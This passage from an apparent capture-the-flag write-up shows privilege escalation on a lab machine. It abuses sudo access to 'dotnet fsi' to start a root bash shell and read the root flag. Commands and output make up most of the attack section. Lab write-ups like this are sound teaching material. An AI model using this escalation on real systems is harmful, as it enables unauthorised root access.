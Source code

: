       sdk               Manage .NET SDK installation.
      sln               Modify Visual Studio solution files.
      store             Store the specified assemblies in the runtime package store.
      test              Run unit tests using the test runner specified in a .NET project.
      tool              Install or manage tools that extend the .NET experience.
      vstest            Run Microsoft Test Engine (VSTest) commands.
      workload          Manage optional workloads.
    
    Additional commands from bundled tools:
      dev-certs         Create and manage development certificates.
      fsi               Start F# Interactive / execute F# scripts.
      sql-cache         SQL Server cache command-line tools.
      user-secrets      Manage development user secrets.
      watch             Start a file watcher that runs a command when files change.
    
    Run 'dotnet [command] --help' for more information on a command.
    

There’s a lot possible here, and several ways to exploit this.

#### F# Execution

In scrolling through these, `fsi` jumps out as an interesting command - “Start
F# Interactive / execute F# script”.

A simple F# script to get a shell is
`System.Diagnostics.Process.Start("id").WaitForExit();` This will run whatever
shell command it’s given:

    
    
    [developer@bagel ~]$ sudo dotnet fsi
    
    Microsoft (R) F# Interactive version 12.0.0.0 for F# 6.0
    Copyright (c) Microsoft Corporation. All Rights Reserved.
    
    For help type #help;;
    
    > System.Diagnostics.Process.Start("id").WaitForExit();;     
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    val it: unit = ()
    

For whatever reason, F# needs `;;` to end this line.

I can do the same thing and invoke `bash`:

    
    
    > System.Diagnostics.Process.Start("bash").WaitForExit();;
    [root@bagel developer]#
    

From there, grab the flag:

    
    
    [root@bagel developer]# cd /root/
    [root@bagel ~]# cat root.txt
    7ca14c4d************************
    